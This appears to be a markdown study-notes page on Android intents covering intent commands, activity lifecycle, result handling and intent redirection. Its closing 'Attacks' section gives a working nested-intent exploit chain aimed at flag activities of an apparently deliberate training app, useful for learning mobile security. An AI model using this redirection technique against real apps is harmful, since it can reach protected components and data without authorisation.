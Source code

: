 # Intents

- [Interaction with Intents](#interaction-with-intents)
- [Activity Life Cycle](#activity-life-cycle)
- [Returning Activity Results](#returning-activity-results)
- [Attacks](#attacks)
    - [Intent Redirection](#intent-redirection)


## Interaction with Intents
- **Commands to interact with intents**
    - `intent.setClassName(<Package_Name>,<Class_Name>);`
    - `startActivity(<Intent_Name>)`
    - `<Intent_Name>.setAction(<Action_Name>)`

- **Nested Intents**
```java
Intent intent3 = new Intent();
intent3.putExtra("reason","back");

Intent intent2 = new Intent();
intent2.putExtra("return",42);
intent2.putExtra("nextIntent",intent3);

Intent intent1 = new Intent();
intent1.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");
intent1.putExtra("android.intent.extra.INTENT",intent2);
startActivity(intent1);
```

## Activity Life Cycle

- Scenarios When `onNewIntent()` Is Triggered
    1. Activity Launched with `FLAG_ACTIVITY_SINGLE_TOP`:
        - If the activity is already running at the top of the back stack, and a new intent is sent to it with the `Intent.FLAG_ACTIVITY_SINGLE_TOP` flag, the system calls `onNewIntent()` instead of creating a new instance of the activity.
    2. Activity Configured with `launchMode="singleTop"`:

        - If the activity is declared in the `AndroidManifest.xml` file with the launchMode attribute set to `singleTop`, the system calls `onNewIntent()` when the activity is already at the top of the stack and receives a new intent.
        ```xml
        <activity
            android:name=".YourActivity"
            android:launchMode="singleTop" />
        ```

    3. Activity Declared as `singleTask` or `singleInstance`:

        - For activities declared with `launchMode="singleTask"` or `launchMode="singleInstance"`, `onNewIntent()` is called when the activity is already running in a task and a new intent is directed to it.
    4. Task Reuse (`Intent.FLAG_ACTIVITY_REORDER_TO_FRONT`):

        - If you launch an activity that is already in the back stack of the current task using the `FLAG_ACTIVITY_REORDER_TO_FRONT` flag, the system brings it to the front and calls `onNewIntent()`.


## Returning Activity Results
1. `getCallingActivity()`
    - `getCallingActivity()` is used to retrieve the component name of the activity that started the current activity using `startActivityForResult()`.
    ```java
        ComponentName callingActivity = getCallingActivity();
        if (callingActivity != null) {
            Log.d("Caller", "Calling activity: " + callingActivity.getClassName());
        }
    ```

2. `startActivityForResult()`

    - `startActivityForResult()` is used to start another activity with the expectation of getting a result back. The result is received in the `onActivityResult()` method.
    ```java
    Intent intent = new Intent(this, SecondActivity.class);
    startActivityForResult(intent, 1); // 1 is the requestCode

    ```

3. `onActivityResult()`
    - `onActivityResult()` is a callback method in the originating activity that receives the result sent back by the target activity.
    ```java
    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);

        if (requestCode == 1) { // Matching the requestCode
            if (resultCode == RESULT_OK) {
                String result = data.getStringExtra("resultKey");
                Log.d("Result", "Result from SecondActivity: " + result);
            }
        }
    }
    ```


## Attacks
### Intent Redirection
- If we can control the intent input of the startActivity() function, it may lead to an intent redirection vulnerability.
```java
// Redirect to flag6 Activity
Intent intent3 = new Intent();
intent3.putExtra("reason","next");
intent3.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
intent3.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag6Activity");

Intent intent2 = new Intent();
intent2.putExtra("return",42);
intent2.putExtra("nextIntent",intent3);

Intent intent1 = new Intent();
intent1.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");
intent1.putExtra("android.intent.extra.INTENT",intent2);
startActivity(intent1);
```

> [!NOTE]
> `FLAG_GRANT_READ_URI_PERMISSION`: If set, the recipient of this Intent will be granted permission to perform read operations on the URI in the Intent's data and any URIs specified in its ClipData.
